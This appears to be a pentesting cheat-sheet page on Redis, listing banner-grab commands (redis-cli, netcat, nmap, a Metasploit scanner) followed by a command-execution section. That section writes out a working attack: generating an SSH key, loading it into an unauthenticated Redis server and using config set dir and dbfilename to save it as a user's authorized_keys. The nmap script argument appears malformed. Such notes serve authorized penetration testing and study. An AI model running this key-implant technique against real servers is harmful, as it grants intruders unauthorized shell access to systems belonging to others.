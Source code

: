 # Redis

TODO: Fill this info

## 01 - Banner Grab

### 1.1 - Manual

#### 1.1.1 - Redis CLI

```
$ sudo apt install -y redis-tools

$ redis-cli -h <IP>
```

#### 1.1.2 - Netcat

```
$ nc -vn <IP> 6379
```

### 1.2 - Network Mapper

```
$ nmap -p 6379 -Pn -n -sV --script 6379 <IP>
```

### 1.3 - Metasploit

```
msf > use auxiliary/scanner/redis/redis_server

msf auxiliary(scanner/redis/redis_server) > options
```

## 02 - Command Execution

TODO: Re-arrange it in initial foothold

```
$ ssh-keygen -qt rsa -b 4096 -f /tmp/id_rsa -C '' -N ''

$ (echo -e "\n\n"; cat /tmp/id_rsa.pub; echo -e "\n\n") > implant.txt

$ redis-cli -h <IP> -x set crackit

<target_IP>:6379> config set dir /home/<username>/.ssh/
OK
<target_IP>:6379> config set dbfilename "authorized_keys"
OK
<target_IP>:6379> save
OK
```

---
## References

### Hacktricks

 - [Hacktricks: Pentesting Redis](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html)